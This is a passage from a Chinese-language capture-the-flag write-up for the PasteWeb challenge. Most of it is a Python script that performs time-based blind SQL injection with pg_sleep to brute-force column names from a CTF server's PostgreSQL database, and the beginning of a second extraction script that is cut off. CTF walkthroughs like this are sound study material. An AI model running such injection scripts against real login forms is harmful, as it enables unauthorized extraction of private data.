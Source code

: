```printable_char``` 是 ascii code 33 到 126 的所有可印字元，會利用 blind injection 對字元一個一個去暴力破解
# PasteWeb1/column_name.py
import requests
from time import time, sleep

printable_char = ''
for i in range(32, 127):
    printable_char += chr(i)

offset = 0
while True:
    cnt = 0
    column_name = ''
    while True:
        cnt += 1
        stop = True
        for c in printable_char:
            sleep(0.1)
            username = "' or 1=(select 1 from pg_sleep(2) where substr((select \
            column_name from information_schema.columns where table_name='s3cr3t_t4b1e' \
            limit 1 offset " + str(offset) + "),1," + str(cnt) + ")='" + \
            column_name + c + "') --"
            current_time = str(int(time()))
            url = 'https://pasteweb.ctf.zoolab.org/'
            data = {
                'username': username,
                'password': '',
                'current_time': current_time
            }
            start_time = time()
            requests.post(url, data=data)
            end_time = time()
            if end_time - start_time > 2:
                column_name += c
                stop = False
                break
        if stop == True:
            break
        print(column_name, cnt)
    if len(column_name) == 0:
        break
    offset += 1
```
![](assets/5-9.png)
成功爆破出 s3cr3t_t4b1e 的 column name 為 fl4g\
最後，也是用一樣的方法撰寫腳本爆破出 fl4g column 裡存的 flag 值
```python
# PasteWeb1/solve.py
import requests
from time import time, sleep

printable_char = ''
for i in range(32, 127):
    printable_char += chr(i)

offset = 0
while True:
    cnt = 0
    flag = ''
    while True:
```